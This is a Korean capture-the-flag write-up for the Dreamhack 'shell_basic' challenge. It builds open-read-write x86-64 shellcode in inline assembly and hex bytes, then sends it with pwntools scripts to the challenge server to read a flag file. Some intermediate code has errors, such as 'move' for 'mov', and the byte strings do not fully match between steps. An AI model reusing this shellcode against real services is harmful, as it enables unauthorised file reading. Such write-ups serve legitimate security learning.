







## 📍shell_basic

```
입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.

`main` 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.

flag 파일의 위치와 이름은 `/home/shell_basic/flag_name_is_loooooong`입니다.  
감 잡기 어려우신 분들은 아래 코드를 가지고 먼저 연습해보세요!
```

```
$ cat write.asm
section .text
global _start
_start:
    ;/* write(fd=1, buf='hello', n=48) */
    ;/* push 'hello\x00' */
    mov rax, 0x0a6f6c6c6568
    push rax
    mov rsi, rsp
    push 1
    pop rdi
    push 0x6
    pop rdx
    ;/* call write() */
    push 1
    pop rax
    syscall
$ nasm -f elf64 write.asm
$ objcopy --dump-section .text=write.bin write.o
$ xxd write.bin
00000000: 48b8 6865 6c6c 6f0a 0000 5048 89e6 6a01  H.hello...PH..j.
00000010: 5f6a 065a 6a01 580f 05                   _j.Zj.X..
$ cat write.bin | ./shell_basic
shellcode: hello
[1]    1592460 done                cat write.bin |
       1592461 segmentation fault  ./shell_basic
$
```


#### 해결

우선 execve 시스템콜을 막았다고 하니 orw 셸코드를 사용해보자.

위 파일 경로 `home/shell_basic/flag_name_is_loooooong`을 16진수 리틀 엔디안으로 변환하면 다음과 같다.

```
0x676e6f6f6f6f6f6f6c5f73695f656d616e5f67616c662f63697361625f6c6c6568732f656d6f682f
```

위에서 만든 orw.c 파일에 그대로 파일 경로만 붙여넣기해봤다.
(리눅스에서 실행할 수 있도록 c언어로 된 스켈레톤 코드에 셸코드를 탑재하는 것)
```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
        ".global run_sh\n"
        "run_sh:\n"

        "push 0x67\n"
        "mov rax, 0x6e6f6f6f6f6f6f6c5f73695f656d616e5f67616c662f63697361625f6c6c6568732f656d6f682f\n"
        "push rax\n"
        "mov rdi, rsp   # rdi = /tmp/flag'\n"
        "xor rsi, rsi   # rsi = 0 ; RD_ONLY\n"
        "xor rdx, rdx   # rdx = 0\n"
        "mov rax, 2     # rax = 2 ; syscall_open\n"
        "syscall        # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
        "\n"
        "mov rdi, rax   # rdi = fd\n"
        "mov rsi, rsp\n"
        "sub rsi, 0x30  # rsi = rsp-0x30 # buf\n"
        "mov rdx, 0x30  # rdx = 0x30     # len\n"
        "mov rax, 0x0   # rax = 0        # syscall_read\n"
        "syscall        # read(fd, buf, 0x30)\n"
        "\n"
        "mov rdi, 1    # rdi = 1 # fd = stdout\n"
        "mov rax, 0x1  # rax = 1 # syscall_write\n"
        "syscall       # write(fd, buf, 0x30)\n"
        "\n"
        "xor rdi, rdi   # rdi = 0\n"
        "mov rax, 0x3c  # rax = sys_exit\n"
        "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```

너무 길어서 그런지 에러가 났다.


스택에는 8바이트 단위로만 값을 push할 수 있으므로, 위 문자열을 8바이트씩 쪼개준다.
```
0x676e6f6f6f6f6f6f
0x6c5f73695f656d61
0x6e5f67616c662f63
0x697361625f6c6c65
0x68732f656d6f682f
```

다시 push해서 스택에 차례대로 넣었다.
```c
"move rax, 0x676e6f6f6f6f6f6f\n"
"push rax\n"
"move rax, 0x6c5f73695f656d61\n"
"push rax\n"
"move rax, 0x6e5f67616c662f63\n"
"push rax\n"
"move rax, 0x697361625f6c6c65\n"
"push rax\n"
"move rax, 0x68732f656d6f682f\n"
"push rax\n"
```

#### 셸코드
```c
// File name: orw.c
// Compile: gcc -o orw orw.c -masm=intel

__asm__(
        ".global run_sh\n"
        "run_sh:\n"
        
		"push 0x0\n"
        "mov rax, 0x676e6f6f6f6f6f6f\n"
		"push rax\n"
		"mov rax, 0x6c5f73695f656d61\n"
		"push rax\n"
		"mov rax, 0x6e5f67616c662f63\n"
		"push rax\n"
		"mov rax, 0x697361625f6c6c65\n"
		"push rax\n"
		"mov rax, 0x68732f656d6f682f\n"
		"push rax\n"
        "mov rdi, rsp   # rdi = /home/shell_basic/flag_name_is_loooooong'\n"
        "xor rsi, rsi   # rsi = 0 ; RD_ONLY\n"
        "xor rdx, rdx   # rdx = 0\n"
        "mov rax, 2     # rax = 2 ; syscall_open\n"
        "syscall        # open('/home/shell_basic/flag_name_is_loooooong', RD_ONLY, NULL)\n"
        "\n"
        "mov rdi, rax   # rdi = fd\n"
        "mov rsi, rsp\n"
        "sub rsi, 0x30  # rsi = rsp-0x30 # buf\n"
        "mov rdx, 0x30  # rdx = 0x30     # len\n"
        "mov rax, 0x0   # rax = 0        # syscall_read\n"
        "syscall        # read(fd, buf, 0x30)\n"
        "\n"
        "mov rdi, 1    # rdi = 1 # fd = stdout\n"
        "mov rax, 0x1  # rax = 1 # syscall_write\n"
        "syscall       # write(fd, buf, 0x30)\n"
        "\n"
        "xor rdi, rdi   # rdi = 0\n"
        "mov rax, 0x3c  # rax = sys_exit\n"
        "syscall        # exit(0)");

void run_sh();

int main() { run_sh(); }
```



`-d`는 디스어셈블 옵션이다.
여기서 orw에 필요한 셸코드만 추출한다.



```
\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05
```

원래 이걸 통째로 shellcode: 에 입력하려고 했는데 그게 아닌 것 같다...


pwntools를 사용해서 파이썬 스크립트를 작성해봤다.
```python
from pwn import *

context.arch = "amd64"
p = remote("host3.dreamhack.games", 14009)

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\x48\xc7\xc0\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\x48\xc7\xc2\x30\x00\x00\x00\x48\xc7\xc0\x00\x00\x00\x00\x0f\x05\x48\xc7\xc7\x01\x00\x00\x00\x48\xc7\xc0\x01\x00\x00\x00\x0f\x05\x48\x31\xff\x48\xc7\xc0\x3c\x00\x00\x00\x0f\x05"
p.sendafter(b": ", shellcode)
p.interactive()
```

파일을 실행해주면 플래그가 반환된다.




## 📍shell_basic 2

일단 orw 셸 코드를 작성해야 한다.

```c
//orw
int fd = open("/home/shell_basic/flag_name_is_loooooong", RD_ONLY, NULL)
read(fd, buf, 0x30);
write(1, buf, 0x30);
```

위 코드처럼 open-read-write를 하면 된다.
셸 코드를 작성해주는 pwntools의 `shellcraft()` 함수를 사용해 보자.

```python
from pwn import *

p = remote("host3.dreamhack.games", 10178)

context.arch = "amd64"
path = "/home/shell_basic/flag_name_is_loooooong"

shellcode = shellcraft.open(path)
# open 함수 결과는 rax 레지스터에 저장된다고 한다. fd = rax
shellcode += shellcraft.read('rax', 'rsp', 0x30)   # read(fd, buf, 0x30)
shellcode += shellcraft.write(1, 'rsp', 0x30)      # write(1, buf, 0x30)
shellcode = asm(shellcode)   # shellcode를 기계어로 변환하여 대입

payload = shellcode
p.sendlineafter("shellcode: ", payload)
print(p.recv(0x30))
```



성공 🚩